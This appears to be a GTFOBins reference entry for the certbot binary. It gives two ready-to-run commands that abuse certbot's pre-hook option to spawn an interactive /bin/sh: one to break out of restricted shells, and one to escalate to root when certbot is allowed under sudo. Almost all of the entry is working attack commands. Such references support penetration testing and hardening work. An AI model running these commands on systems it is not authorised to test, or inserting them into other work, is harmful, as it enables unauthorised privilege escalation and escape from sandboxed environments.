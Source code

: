 # GTFOBin: certbot

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp -d)
certbot certonly -n -d x --standalone --dry-run --agree-tos --email x --logs-dir $TF --work-dir $TF --config-dir $TF --pre-hook '/bin/sh 1>&0 2>&0'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -d)
sudo certbot certonly -n -d x --standalone --dry-run --agree-tos --email x --logs-dir $TF --work-dir $TF --config-dir $TF --pre-hook '/bin/sh 1>&0 2>&0'
```